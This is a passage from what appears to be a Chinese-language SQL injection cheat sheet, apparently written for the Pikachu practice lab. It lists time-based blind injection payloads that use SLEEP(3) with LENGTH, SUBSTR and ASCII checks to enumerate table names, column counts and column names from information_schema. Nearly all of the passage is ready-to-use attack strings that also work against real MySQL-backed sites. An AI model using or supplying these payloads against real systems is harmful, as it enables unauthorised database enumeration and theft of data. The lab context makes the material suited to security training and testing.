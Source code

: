 判断指定数据库中第一个数据表名的字节长度

```
' AND IF((SELECT LENGTH(table_name) FROM information_schema.TABLES WHERE table_schema='pikachu' LIMIT 0, 1) = 8, SLEEP(3), 1) -- 
```

判断当前数据库中第一个数据表名的字节长度

```
' AND IF((SELECT LENGTH(table_name) FROM information_schema.TABLES WHERE table_schema=DATABASE() LIMIT 0, 1) = 8, SLEEP(3), 1) -- 
```

判断指定数据库中第一个数据表名的第一个字符

```
' AND IF(ASCII (SUBSTR((SELECT table_name FROM information_schema.TABLES WHERE table_schema='pikachu' LIMIT 0, 1), 1, 1)) = 104, SLEEP(3), 1) -- 
```

判断当前数据库中第一个数据表名的第一个字符

```
' AND IF(ASCII (SUBSTR((SELECT table_name FROM information_schema.TABLES WHERE table_schema=DATABASE() LIMIT 0, 1), 1, 1)) = 104, SLEEP(3), 1) -- 
```

### 8.3. Columns

判断指定数据库中指定数据表中字段的个数

```
' AND IF((SELECT COUNT(*) FROM information_schema.COLUMNS WHERE table_schema='pikachu' and table_name='users') = 4, SLEEP(3), 1) -- 
```

判断当前数据库中指定数据表中字段的个数

```
' AND IF((SELECT COUNT(*) FROM information_schema.COLUMNS WHERE table_schema=DATABASE() and table_name='users') = 4, SLEEP(3), 1) -- 
```

判断指定数据库中指定数据表中第一个字段名的字节长度

```
' AND IF((SELECT LENGTH(column_name) FROM information_schema.COLUMNS WHERE table_schema='pikachu' AND table_name='users' LIMIT 0, 1) = 2, SLEEP(3), 1) -- 
```

判断当前数据库中指定数据表中第一个字段名的字节长度

```
' AND IF((SELECT LENGTH(column_name) FROM information_schema.COLUMNS WHERE table_schema=DATABASE() AND table_name='users' LIMIT 0, 1) = 2, SLEEP(3), 1) -- 
```

判断指定数据库中指定数据表中第一个字段名的第一个字符

```
' AND  IF(ASCII (SUBSTR((SELECT column_name FROM information_schema.COLUMNS WHERE table_schema='pikachu' AND table_name='users' LIMIT 0, 1), 1, 1)) = 105, SLEEP(3), 1) -- 
```

